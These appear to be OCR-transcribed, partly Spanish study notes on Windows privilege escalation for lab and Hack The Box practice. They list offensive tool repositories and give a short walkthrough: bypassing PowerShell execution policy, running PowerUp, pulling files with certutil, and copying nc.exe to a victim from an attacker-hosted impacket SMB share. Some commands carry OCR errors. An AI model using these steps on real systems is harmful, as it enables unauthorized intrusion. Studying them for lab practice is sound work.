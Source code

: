   - ﻿﻿BeRoot - https://github.com/AlessandroZ/BeRoot
  - ﻿﻿JAWS - https://github.com/411Hall/JAWS
  - ﻿﻿Repositorio Exploits Windows - https://github.com/abatchy17/WindowsExploits
  - https://github.com/swisskyrepo/PayloadsAllTheThings
  - https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
  - https://github.com/RedTeamOperations/Vulnerable_Machine
  - https://github.com/sagishahar/lpeworkshop
  - https://attack.stealthbits.com/plaintext-passwords-sysvol-group-policy-preferences

- Máquinas recomendadas HTB
  - ﻿﻿Artic
  - ﻿﻿Devel
  - ﻿﻿SecNotes
  - ﻿﻿Bastard
  - ﻿﻿Jeeves
  - ﻿﻿Access
  - ﻿﻿ServMon
  - ﻿﻿Remote
  - ﻿﻿Resolute
  - Json

## Walkthrough

- `powershell -ep bypass`
- `./PowerUp.ps1`
- `Import-Module ./PowerUp.ps1`
- `Invoke-AllChecks`
- `certutil -urlcache -f -split <url>` / `curl`

### SMB Server

- SMB Server
- ﻿﻿Mediante `smbsever.py` de `impacket` (https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) es posible arrancar un servicio de SMB para compartir ficheros.
  - In the attack machine: `python3 smbserver.v <SHARE_NAME> <PATH>`
  - In the Windows victim:
    - `﻿﻿net view I/P_ attack machine`
    - ﻿﻿Copy file: `copy \\IP_ attack_machine|SHARE_NAME \nc.exe`
